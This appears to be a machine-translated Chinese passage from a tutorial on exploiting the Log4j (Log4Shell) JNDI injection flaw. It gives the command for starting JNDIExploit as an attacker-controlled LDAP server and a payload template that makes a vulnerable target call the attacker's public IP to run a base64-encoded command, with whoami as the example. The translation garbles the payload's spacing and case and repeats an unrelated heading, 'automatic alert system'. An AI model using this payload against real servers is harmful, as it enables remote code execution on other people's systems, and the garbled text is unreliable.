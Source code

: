 自动警报系统

最后，为了启动我们的 ldap 服务器，我们将使用:

```
java -jar JNDIExploit-1.2-SNAPSHOT.jar -i YOUR_PUBLIC_IP -p 8888
```

![](img/9d35d9fc1ea215a0a85645105e31f255.png)

自动警报系统

现在一切都完成了。我们只需要注入有效载荷。我们将使用的有效负载是:$ { JNDI:LDAP://YOUR _ PUBLIC _ IP:1389/Basic/Command/Base64/Base64 _ ENCODED _ Command }

比方说，我想执行 whoami 命令。首先，我们将用 base64 编码我们的命令:

![](img/fdc48a4b2099e65928527426f4731818.png)

